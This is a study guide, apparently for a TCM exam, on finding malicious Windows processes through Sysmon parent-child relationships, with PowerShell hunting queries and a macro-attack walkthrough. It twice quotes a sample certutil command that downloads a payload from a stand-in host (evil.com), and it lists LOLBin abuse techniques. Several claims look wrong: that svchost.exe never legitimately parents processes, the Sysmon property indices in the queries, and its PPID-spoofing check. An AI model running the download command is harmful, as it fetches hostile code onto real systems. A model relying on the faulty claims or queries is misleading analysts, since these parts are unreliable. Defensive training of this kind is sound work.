




# Identifying Malicious Processes and Parent-Child Relationships

## TCM Exam Objectives

- Use Sysmon Event ID 1 fields (Image, ParentImage, CommandLine, ProcessGuid) for process tree reconstruction
- Detect anomalous parent-child relationships: Office apps spawning cmd/powershell, svchost spawning shells
- Identify LOLBin abuse chains: winword → cmd → certutil, wscript → powershell, rundll32 → javascript
- Correlate processes across event types using ProcessGuid for full attack timeline reconstruction
- Recognize process injection indicators via svchost.exe as a parent to any process
- Detect credential dumping via winlogon.exe or rundll32.exe spawning shell processes
- Use Sysmon Event 8 (CreateRemoteThread) and Event 10 (ProcessAccess) for injection and dump detection
- Identify PPID spoofing discrepancies between ParentImage and CreatorProcessName
- Analyze empty CommandLine fields as potential process hollowing indicators

Every process on Windows (except the first) is created by another process---its parent. This parent-child relationship forms a process tree that describes exactly how an attack unfolded. Attackers frequently use legitimate system tools (Living-off-the-Land Binaries, or LOLBins) to execute malicious code while blending in, but the anomalous parent-child relationship betrays them. `winword.exe` spawning `cmd.exe`, `wscript.exe` spawning `powershell.exe`, or `svchost.exe` spawning any shell are almost never normal.

- Sysmon Event ID 1 and Windows Security Event 4688 for process creation
- Critical fields: Image, ParentImage, CommandLine, ProcessGuid
- High-fidelity malicious parent-child patterns
- Process tree reconstruction for attack timeline
- Correlation with network (Event 3), file (Event 11), and registry (Event 13) events
- LOLBin abuse detection



> 📌 **Exam Tip:** The most reliable indicator of malicious intent is NOT the process name alone — it is the parent-child relationship. `winword.exe` spawning `cmd.exe` is almost NEVER normal, while `svchost.exe` should never be a parent to any process. Focus on WHO spawned the process, not just what the process is.

## Process Creation Events

### Event Sources

| Log Source | Event ID | Content |
|------------|----------|---------|
| **Sysmon** | 1 (Process Create) | Image, CommandLine, ParentImage, ParentCommandLine, IntegrityLevel, Hashes, User, LogonGuid, ProcessGuid |
| **Windows Security** | 4688 | NewProcessName, CommandLine, CreatorProcessID, TokenElevationType, MandatoryLabel |
| **Windows Security** | 4689 | Process termination (calculates run duration) |
| **Sysmon** | 5 | Process termination |

Sysmon provides richer metadata including ParentImage and ParentCommandLine, which are essential for parent-child analysis. The Security log provides basic but reliable process creation data.

### Critical Fields (Sysmon Event ID 1)

| Field | Meaning | Malicious Example |
|-------|---------|-------------------|
| **UtcTime** | Timestamp of process creation | `2026-05-18 14:20:03.123` |
| **Image** | Full path to the executable | `C:\Windows\System32\cmd.exe` |
| **CommandLine** | Full command line | `cmd /c certutil -urlcache -f http://evil.com/payload.exe %TEMP%\payload.exe` |
| **ParentImage** | Executable that spawned this process | `C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE` |
| **ParentCommandLine** | Command line of the parent | `/n "C:\Users\brolf\Documents\invoice.docm"` |
| **User** | Domain and username | `CONTOSO\brolf` |
| **IntegrityLevel** | Mandatory integrity level | `High` (if UAC-elevated) |
| **Hashes** | SHA1, MD5, SHA256 | For hash-based threat intel |
| **ProcessGuid** | Unique GUID for the process | Corelates across all Sysmon events |

## High-Fidelity Malicious Patterns



| Parent Process | Child Process | Why It Is Malicious |
|----------------|---------------|---------------------|
| **Office apps** (winword.exe, excel.exe, powerpnt.exe) | cmd.exe, powershell.exe, wscript.exe, mshta.exe | Classic macro-based download/delivery |
| **Script interpreters** (wscript.exe, cscript.exe) | powershell.exe, cmd.exe, certutil.exe | Scripts downloading and executing further stages |
| **powershell.exe** | certutil.exe, bitsadmin.exe, msiexec.exe, net.exe | Reconnaissance or payload download |
| **cmd.exe** | powershell.exe, certutil.exe, regsvr32.exe | Shell chaining to evade detection |
| **svchost.exe** | Any process (especially cmd or powershell) | Compromised service with injected code |
| **services.exe** | Process from user-writable location | Malicious service installation |
| **winlogon.exe** | cmd.exe, powershell.exe | Credential dumping or backdoor |
| **explorer.exe** | Binary from `%TEMP%` or `%APPDATA%` | User double-clicked malware |
| **msbuild.exe** | cmd.exe, powershell.exe, csc.exe | LOLBin code execution |
| **rundll32.exe** | JavaScript URL or url.dll,OpenURL | Script execution via LOLBin |

> 📌 **Exam Tip:** PPID spoofing can fake the parent process ID in sophisticated attack tools. To detect discrepancies, compare the event's ParentImage (Sysmon Event 1, property 20) with the actual CreatorProcessName from the kernel. If they differ, the parent PID was spoofed. Always cross-reference with EDR telemetry when available.

## Process Tree Reconstruction

### Building the Chain

When `WINWORD.EXE` spawns `cmd.exe`, and `cmd.exe` spawns `powershell.exe`, and `powershell.exe` spawns `certutil.exe`, the process tree is:

```
WINWORD.EXE (PID 1234)
 └─ cmd.exe (PID 5678) /c certutil -urlcache -f http://evil.com/payload.exe %TEMP%\payload.exe
      └─ certutil.exe (PID 9012)
```

### Using ProcessGuid for Cross-Event Correlation

Sysmon's ProcessGuid is the definitive identifier for correlating a process across multiple event types:

```powershell
# Step 1: Find the initial suspicious process creation
$suspicious = Get-WinEvent -Path .\sysmon.evtx -FilterXPath "*[System[EventID=1]]" |
    Where-Object {
        $_.Properties[20].Value -like "*WINWORD.EXE" -and
        $_.Properties[4].Value -like "*cmd.exe"
    }
$processGuid = $suspicious[0].Properties[6].Value

# Step 2: Find network connections from that process
Get-WinEvent -Path .\sysmon.evtx -FilterXPath "*[System[EventID=3]]" |
    Where-Object { $_.Properties[4].Value -eq $processGuid }

# Step 3: Find file creation from that process chain
Get-WinEvent -Path .\sysmon.evtx -FilterXPath "*[System[EventID=11]]" |
    Where-Object { $_.Properties[4].Value -eq $processGuid }
```

## Investigation Workflow

### Phase 1: Triage the Alert

Typical alert: "Suspicious Process Launched -- winword.exe spawned cmd.exe on HOST01." Record the hostname, timestamp, parent process, and child process.

### Phase 2: Collect Process Creation Events

```powershell
Get-WinEvent -Path .\sysmon.evtx -FilterXPath "*[System[EventID=1]]" |
    Where-Object {
        $_.Properties[20].Value -like "*WINWORD.EXE" -and
        $_.Properties[4].Value -like "*cmd.exe"
    } |
    Select-Object TimeCreated,
        @{n='Image';e={$_.Properties[4].Value}},
        @{n='CommandLine';e={$_.Properties[5].Value}},
        @{n='ParentImage';e={$_.Properties[20].Value}},
        @{n='User';e={$_.Properties[8].Value}}
```

### Phase 3: Reconstruct the Process Tree

Walk through the events by following child processes. For each child, search for events where it becomes a parent. This produces the full attack chain.

### Phase 4: Correlate with Other Events

| Sysmon Event | Artifact | Data to Extract |
|--------------|----------|-----------------|
| 3 | Network connection | Destination IP, port from the child process PID |
| 11 | File creation | Malicious file written to disk |
| 13 | Registry value set | Persistence Run key or service modification |
| 8 | CreateRemoteThread | Process injection indicator |
| 10 | ProcessAccess | Suspicious handle to lsass.exe |

<details>
<summary>Hands-On: Macro Download Attack</summary>

**Alert**: EDR flags "winword.exe spawning wscript.exe" on DESKTOP-ABC123.

**Step 1**: Extract the initial event:
```
TimeCreated: 5/18/2026 10:15:02
Image: C:\Windows\System32\wscript.exe
ParentImage: C:\Program Files\...\WINWORD.EXE
CommandLine: "...wscript.exe" "C:\Users\brolf\AppData\Local\Temp\macro.vbs"
```

**Step 2**: Find children of wscript.exe:
```
powershell.exe with encoded command
net.exe user /add
nltest /domain_trusts
```

**Step 3**: Correlate:
- Sysmon 3 shows powershell.exe connecting to `203.0.113.50:443`
- Sysmon 11 shows macro.vbs created by winword.exe

**Chain**: `WINWORD.EXE → wscript.exe → powershell.exe → net.exe, nltest.exe`

**Conclusion**: True positive. Macro-based attack leading to C2 beacon and domain reconnaissance.
</details>



## LOLBin Abuse Detection

| LOLBin | Typical Abuse | Detection |
|---------|---------------|-----------|
| **certutil.exe** | Download payload from remote URL | Parent is Office or script interpreter |
| **bitsadmin.exe** | Download/upload via BITS | Command line includes download URL |
| **msbuild.exe** | Execute inline C# code | Loads malicious XML project file |
| **installutil.exe** | Execute assembly with InstallUtil | Parent is script interpreter |
| **regsvr32.exe** | Execute DLL via scriptlet | Command line loads URL |
| **rundll32.exe** | Execute JavaScript or URL | Parent is Office or browser |
| **mshta.exe** | Execute HTA payload | Parent is email client or browser |
| **wmic.exe** | Execute process creation | Command line includes process call |

<details>
<summary>Exam Traps</summary>

- **PPID spoofing** can fake the parent process ID in some attack tools. Compare the event's ParentImage with the actual CreatorProcessName to detect discrepancies.
- **Not all Office → cmd is malicious.** Some legitimate Office add-ins or features spawn command-line processes, but the command line should never contain download URLs or encoded PowerShell.
- **svchost.exe should only be a child of services.exe.** If svchost.exe is a parent to any process, it indicates code injection into the service host.
- **Process creation events can be tampered with** by kernel-mode rootkits that hook the process creation routine. Cross-reference with EDR telemetry and memory analysis.
- **Empty CommandLine fields** may indicate process hollowing or image execution via direct API calls rather than CreateProcess.
</details>

## Quick Reference

### Suspicious Parent-Child Pairs

| Parent → Child | Attack Stage |
|----------------|--------------|
| `winword.exe` → `cmd.exe` / `powershell.exe` | Initial access (macro) |
| `wscript.exe` → `powershell.exe` | Script-to-shell delivery |
| `powershell.exe` → `certutil.exe` / `bitsadmin.exe` | Payload download |
| `cmd.exe` → `powershell.exe -EncodedCommand` | Obfuscated execution |
| `svchost.exe` → `cmd.exe` / `powershell.exe` | Compromised service |
| `services.exe` → binary from `%TEMP%` | Malicious service |
| `rundll32.exe` → `javascript:` URL | Script execution |
| `winlogon.exe` → `cmd.exe` | Backdoor |

### Essential Queries

```powershell
# All Sysmon process creation events
Get-WinEvent -Path .\sysmon.evtx -FilterXPath "*[System[EventID=1]]"

# Filter for Office → cmd pair
Get-WinEvent -Path .\sysmon.evtx -FilterXPath "*[System[EventID=1]]" |
    Where-Object { $_.Properties[20].Value -like "*WINWORD.EXE" -and $_.Properties[4].Value -like "*cmd.exe" }

# Network connections for a specific ProcessGuid
Get-WinEvent -Path .\sysmon.evtx -FilterXPath "*[System[EventID=3]]" |
    Where-Object { $_.Properties[4].Value -eq "{GUID}" }
```



## Recap

The parent-child process relationship is the most reliable indicator of malicious intent. Sysmon Event ID 1 provides Image, ParentImage, CommandLine, and ProcessGuid for reconstructing attack chains. Malicious patterns include Office spawning cmd or powershell, wscript/cscript spawning download tools, and svchost or winlogon spawning any shell process. ProcessGuid enables cross-event correlation with network connections (Event 3), file creation (Event 11), and registry changes (Event 13) to build the complete attack timeline.
